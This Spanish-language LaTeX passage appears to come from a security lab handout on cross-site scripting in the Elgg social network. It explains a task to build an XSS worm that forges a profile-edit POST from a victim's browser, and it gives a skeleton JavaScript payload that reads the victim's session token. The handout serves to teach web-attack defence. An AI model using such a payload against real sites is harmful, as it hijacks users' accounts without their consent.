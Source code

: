 \subsection{Tarea 5: Modificando el perfil de la Víctima}


El objetivo de esta tarea es modificar el perfil de la víctima cuando esta visite el perfil de Samy. Más precisamente modificar el campo \texttt{"About Me"} de la víctima. Para ello escribiremos un gusano XSS, este no se auto-propagará;  Lo haremos auto-propagable en la Tarea 6.

Al igual que en la tarea anterior, necesitaremos escribir un programa de JavaScript malicioso que falsifique Requests HTTP directamente desde el navegador de la víctima, sin la intervención del atacante.
Para modificar el perfil de la víctima, primero debemos entender como es que un usuario legítimo edita o modifica su perfil en {\tt Elgg}. Más específicamente, necesitamos averiguar como se construye un Request HTTP POST para realizar la modificación del perfil del usuario.
Para este propósito usaremos la herramienta \texttt{HTTP} inspection tool de Firefox.

Una vez entendido como es el Request HTTP Post que permite modificar el perfil del usuario, podemos escribir un programa JavaScript para enviar la misma petición HTTP. Hemos provisto un código JavaScript base que ayuda a completar esta tarea.
\begin{lstlisting}
<script type="text/javascript">
window.onload = function(){
  //JavaScript code to access user name, user guid, Time Stamp __elgg_ts 
  //and Security Token __elgg_token
  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;

  //Construct the content of your url.
  var content=...;     //FILL IN

  var samyGuid=...;    //FILL IN
  
  var sendurl=...;     //FILL IN
  
  if(elgg.session.user.guid!=samyGuid)           (*@ \ding{192} @*)
  {
     //Create and send Ajax request to modify profile
     var Ajax=null;
     Ajax=new XMLHttpRequest();
     Ajax.open("POST", sendurl, true);
     Ajax.setRequestHeader("Content-Type",
                           "application/x-www-form-urlencoded");
     Ajax.send(content);
  }
}
</script>
\end{lstlisting}

